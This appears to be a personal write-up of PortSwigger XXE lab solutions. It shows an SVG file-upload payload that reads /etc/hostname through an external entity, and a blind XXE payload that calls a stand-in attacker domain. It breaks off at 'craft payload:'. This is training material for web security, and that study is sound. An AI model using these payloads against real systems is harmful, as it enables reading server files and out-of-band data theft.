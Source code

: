 ```
attcaker
-----------------------------236802198913264706471563530208
Content-Disposition: form-data; name="avatar"; filename="SVG_Logo.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>

-----------------------------236802198913264706471563530208
Content-Disposition: form-data; name="email"

clean@token.com
-----------------------------236802198913264706471563530208
Content-Disposition: form-data; name="website"


-----------------------------236802198913264706471563530208--
```
81ece57f5921
check **GET /post?postId=4 HTTP/1.1** and see that the avatar has changed and now contains a string. copy the string to the solution field

# Lab Solved

<span style="color:yellow;font-weight:700;font-size:30px">
Finding and exploiting blind XXE vulnerabilities
</span>
https://portswigger.net/web-security/xxe/blind

materials:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com" ]
```

# ***[1. Lab: Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)***

 This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 


craft payload:

